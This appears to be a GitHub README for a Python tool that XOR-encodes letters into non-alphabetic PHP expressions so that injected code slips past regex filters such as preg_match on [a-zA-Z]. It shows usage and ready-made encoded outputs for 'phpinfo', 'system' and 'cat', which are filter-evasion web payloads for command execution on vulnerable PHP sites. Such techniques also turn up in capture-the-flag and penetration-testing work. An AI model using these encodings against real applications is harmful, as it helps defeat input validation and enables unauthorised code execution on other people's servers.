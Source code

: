 # PHP-non-alpha-encoder
Encode alpha string (a-zA-Z) using XOR to bypass PHP condition such as `if(!preg_match('/[a-zA-Z\``]/', "yourPayload")`

## How to use

`python <path_to_script> <alpha_string_to_encode>`

"phpinfo" => ("@"^"0").("["^"3").("@"^"0").("["^"2").("^"^"0").("^"^"8").("_"^"0")
    "phpinfo()" => incorrect output as '(' and ')' are non alpha char
    "sys2" => incorrect output as '2' is a non alpha charù
    
## Examples

### phpinfo

`python <path_to_script> "phpinfo"`

output: `("@"^"0").("["^"3").("@"^"0").("["^"2").("^"^"0").("^"^"8").("_"^"0")`

### system

`python <path_to_script> "system"`

output: `("@"^"3").("@"^"9").("@"^"3").("@"^"4").("]"^"8").("]"^"0")`

### cat

`python <path_to_script> "cat"`

output: `("["^"8").("@"^"!").("@"^"4")`
